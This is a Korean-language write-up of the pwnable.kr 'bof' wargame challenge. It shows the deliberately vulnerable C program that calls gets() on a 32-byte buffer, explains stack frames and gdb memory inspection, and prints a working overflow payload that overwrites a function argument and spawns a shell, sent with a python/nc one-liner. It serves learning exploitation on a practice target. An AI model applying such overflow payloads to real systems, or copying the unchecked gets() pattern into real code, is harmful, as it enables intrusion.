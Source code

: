 # bof

### Problem
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

### Background Knowledge
* [Buffer overflow - Wikipedia](https://en.wikipedia.org/wiki/Buffer_overflow)
	- In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
	- Exploitation
		+ Stack-based exploitation
		+ Heap-based exploitation
* [Stack buffer overflow - Wikipedia](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
	- 스택의 리턴 어드레스를 더렵혀서 원하는 구문을 실행시킨다.
	- 특정 위치에 원하는 값을 덮어씌워 원하는 대로 프로그램의 흐름을 바꾸는 것이다.
* [Function prologue and epilogue - Wikipedia](https://en.wikipedia.org/wiki/Function_prologue)
	- 함수 호출시 스택에 돌아올 주소를 저장하고, 스택 프레임을 생성한다.
	- 함수 종료시 스택 프레임을 제거하고 호출한 주소로 복귀한다.
	
### Inspection
```
$ nc pwnable.kr 9000

overflow me : 
Nah..

```
* `bof`가 바로 실행된다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);       // smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
* [`bof.c`](./bof.c)
	- `main()`에서 `func(0xdeadbeef)`를 호출한다.
	- `func(0xdeadbeef)`
		+ `void func(int key)`
		+ `char overflowme[32];`
		+ `gets(overflowme);`
		+ `key == 0xcafebabe`이면 쉘이 뜬다.
	- [`gets()`](https://linux.die.net/man/3/gets)
		+ It reads a line from stdin into the buffer pointed to by `s` until either a terminating `newline` or `EOF`, which it replaces with a null byte (`aq\0aq`). **No check for buffer overrun is performed**.
		+ 글자 수를 정하지 않고 읽기 때문에, Buffer overflow에 취약하다.

* `bof`의 대략적인 스택 구조. 스택은 높은 주소에서 낮은 주소로 증가한다.
	
| Stack | Bytes |
|:---:|:--:|
| `key` | `4` |
| `overflowme` | `32` |

### Trial and error
* 막연히 `32 bytes` 이상의 입력을 넣으면 `key`를 변경할 수 있겠다는 생각을 했으나, 실제로 그렇지 않다.
* `key`는 `overflowme` 위에 있기 때문에, `overflowme`에서 오버플로우해도 더 높은 주소(더 밑)로 가기 때문에 `key`를 건들 수 없다.
	- `key`말고 다른 걸 건드리면 되지 않는가!
* 이는 Stack buffer overflow을 제대로 공부하지 않아서 실수하는 것이라고 생각했다.
* 삽질 중 [@ddddhkim](https://github.com/ddddhkim)이 빌려준 책 중 하나인 [윈도우 시스템 해킹 가이드 : 버그헌팅과 익스플로잇](http://hyunmini.tistory.com/77)에서 나오는 함수 호출과 리턴에 관한 내용이 불현듯 생각났다.
	- 각 함수는 호출된 후 필요한 만큼 메모리를 받아 사용하고, 함수가 종료된 후에는 메모리를 반환하고 종료된다.
	- 함수마다의 별도 스택공간을 스택 프레임이라고 부른다.
	- 함수 호출시 스택에 돌아올 주소를 저장하고, 스택 프레임을 생성한다. -> 함수 프롤로그
	- 함수 종료시 스택 프레임을 제거하고 호출한 주소로 복귀한다. -> 함수 에필로그
* 원하는 구문 실행.
	- `gets(overflowme)`에서 overflow을 일으켜서 스택 프레임의 복귀 주소를 원하는 구문이 있는(`system("/bin/sh");`) 주소로 더럽힌 다음, 함수 에필로그 과정을 따라가서 더럽힌 원하는 주소로 이동하여 원하는 구문을 실행시킨다.
	- 64bit ELF로 컴파일하여 해당 파일에서 원하는 구문의 주소값을 구한 다음 `1111111122222222333333334444444455555555<@`을 입력했더니 성공했었다.
	- 하지만 이는 컴파일때마다 구문의 주소값이 매번 바뀌어서 실패한 것과 다름없다.
	- 사이트에서 직접 받아온 파일은 실행 퍼미션을 줘도 디버깅이 잘 되지 않는다...
* 조건문을 만족시켜버려!
	- `func()`의 매개변수인 `key`에는 `0xdeadbeef`가 들어있다. 그리고 이것은 스택 상에 존재한다.
	- 코드 상에 있는 `0xcafebabe`는 변경할 수 없다.
	- 따라서 스택에서 `0xdeadbeef`가 있는 곳을 찾아본다.
	- `gdb`에서 `x/40xw $esp`를 치면 `0xdeadbeef`가 `overflowme[]`에서 `52 bytes` 정도 떨어져 있다는 것을 알 수 있다.
	- 이를 이용해서 뚫을 수 있다.
	- gdb에서 `run <<< $(python -c 'print "X"*52 + "\xbe\xba\xfe\xca"')` 하고 `n`좀 먹여주면 쉘이 실행되는 것을 확인할 수 있다.
	- 근데 `python -c 'print "X"*52 + "\xbe\xba\xfe\xca"' | nc pwnable.kr 9000`은 그냥 종료된다...
	- [파이썬(python)을 사용하여 프로그램에 입력값 넘겨주기](http://kaspyx.tistory.com/77)를 참고하여 `(python -c 'print "X"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000`은 가능한 것을 알아냈다.
	
### Solution
* `(python -c 'print "X"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000`

### Review
* 알게 된 것.
	- 스택 버퍼 오버플로우는 특정 위치에 원하는 값을 덮어씌워 원하는 대로 프로그램의 흐름을 바꾸는 것이다.
	- 함수 호출/리턴 과정에 스택 프레임을 생성/제거하는 프롤로그/에필로그가 존재한다.
	- gdb에서 breakpoint 설정, disassemble, 메모리 확인(`x/40xw $esp`) 등을 다룰 수 있게 되었다. [Debugging with GDB: Memory](https://sourceware.org/gdb/onlinedocs/gdb/Memory.html)
	- gdb 플러그인 pwndbg, peda 등을 알게 되었다.
	- [파이썬(python)을 사용하여 프로그램에 입력값 넘겨주기](http://kaspyx.tistory.com/77)
* 궁금한 것.
	- 조건문 일치 말고 원하는 구문을 실행하는 방법도 가능할까?
		+ `0xdeadbeef`가 있는 곳에서 `4`?`8`?`bytes`정도 이전의 위치가 `RET` 주소인 것 같아서 이를 덮어씌워보았다.
		+ `(python -c 'print "X"*48 + "\x5d\x06\x00\x00"';cat) | nc pwnable.kr 9000`
		+ 안된다...